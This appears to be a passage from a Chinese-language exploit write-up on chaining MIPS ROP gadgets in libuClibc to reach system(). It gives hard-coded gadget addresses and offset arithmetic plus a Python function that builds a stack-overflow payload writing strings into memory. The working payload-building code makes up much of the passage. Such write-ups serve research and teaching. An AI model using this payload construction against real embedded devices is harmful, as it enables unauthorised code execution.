    因此可以通过这个原理，直接往内存中可写的地址写入需要的字节
   
	![/image/cfac100/3.png](/image/cfac100/14.png) 

3. 第三条 gadget 位于 libuClibc-0.9.33.2.so 中的 system 函数附近，该 gadget 地址为 0x2B3FFFF4，首先该 gadget 从栈上获取值并赋值给 $a0，而后旋即将 $s7 赋值给 $t9，再 jalr $t9.
   
   ![/image/cfac100/3.png](/image/cfac100/10.png)     

接下来写代码：首先根据偏移量，分别计算两条 gadget 的位置，以及计算 system 原函数地址

```py
#by leeya_bug

if True:
	system_addr			= 0x2B4002F0
	uClibc_main_addr	= 0x2B2B2550
	string_addr			= 0x0047C010

	gadget_jalr_addr	= system_addr - 0x2fc
	# 0x2B2B2550 		是 __uClibc_main 的起始地址
	# 0x68				是 __uClibc_main 起始至 __uClibc_main 末尾指令 jr $t9 的距离
	# 0x65B8 - 0x4E04	是 __uClibc_main 中指令 jr $t9 至 gadget 起始距离
	gadget_addr 		= uClibc_main_addr + 0x68 - (0x65B8 - 0x4E04)
	gadget_write_addr	= system_addr - (0x000502F0 - 0x00028810)
```

首先利用 gadget1、2，构造一个向地址 string_addr + offset 写入长度为四字节的 string 的函数 (可以多次调用该函数分步写入)

```py
#by leeya_bug

def write_string_at(string, offset, jump_to=gadget_addr):
	if True:
		# gadget 1, 2
		data0 = b''
		data0 += b'A' * 0x1c								# stack padding, register padding
		data0 += string.encode()							# s1 
		data0 += p32(0x80f0f0f0) 							# s2 
		data0 += p32(0x7f0f0f0f + 1 + string_addr + offset) # s3 
		data0 += b'A' * 16									# register padding
		data0 += p32(jump_to)								# fp, return addr of gadget 2 
		data0 += p32(gadget_write_addr) 					# ra, return addr of gadget 1
		return data0
```
